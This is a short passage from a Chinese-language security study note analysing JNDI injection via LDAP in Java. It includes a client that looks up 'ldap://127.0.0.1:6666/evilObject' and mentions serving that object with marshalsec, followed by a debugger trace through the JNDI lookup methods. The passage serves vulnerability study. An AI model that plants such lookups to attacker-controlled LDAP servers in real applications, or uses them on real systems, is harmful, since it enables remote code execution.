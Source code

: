 #### 示例代码
 - JNDIClient

```java
package org.h3rmesk1t.jndi.LDAPAttack;

import javax.naming.InitialContext;
import javax.naming.NamingException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 7:03 上午
 */
public class JNDIClient {

    public static void main(String[] args) throws NamingException {

        new InitialContext().lookup("ldap://127.0.0.1:6666/evilObject");
    }
}
```

![JNDI-LDAP](./images/17.png)

#### 过程分析
这里利用`marshalsec`起一个`LDAP`服务, 同样将断点下在`lookup`处. 之前的步骤和`RMI`一样, 这里直接分析后面不同的地方.

跟进`GenericURLContext#lookup`方法, 进一步调用`PartialCompositeContext#lookup`方法, 在`for`循环的条件中先调用`ComponentContext#p_lookup`方法.
